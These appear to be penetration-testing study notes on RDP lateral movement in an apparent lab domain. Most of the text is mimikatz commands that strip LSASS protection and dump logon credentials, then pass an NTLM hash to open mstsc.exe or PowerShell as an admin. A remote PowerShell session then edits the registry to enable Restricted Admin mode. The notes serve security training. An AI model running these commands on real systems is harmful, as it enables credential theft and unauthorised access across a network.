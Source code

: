 RDP is a multichannel network protocol developed by Microsoft and is used for communication
between Terminal Servers and their clients. When an RDP connection is created, the NTLM hashes will reside in memory for the duration of
the session. The session does not terminate without a proper logout, which means simply
disconnecting from the sessions will leave the hashes in memory.We can dump the hash if we find a RDP jump server.

```
mimikatz # privilege::debug
mimikatz # !processprotect /process:lsass.exe /remove
mimikatz # sekurlsa::logonpasswords
```

We can also use /restrictedadmin argument to mstsc.exe, so we don't need to supply clear text password to RDP

pass the hassh, and lauch a mstsc.exe with admin's hash
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:"mstsc.exe /restrictedadmin"
```
In the case that restrictedadmin is disable on target machine, we can enable it first.

lanuch an admin powershell
```
mimikatz # sekurlsa::pth /user:admin /domain:corp1
/ntlm:2892D26CDF84D7A70E2EB3B9F05C425E /run:powershell
```
Access to remote resource through a powershell session and enable the restrictedadmin mode
```
PS C:\Windows\system32> Enter-PSSession -Computer appsrv01

[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
```
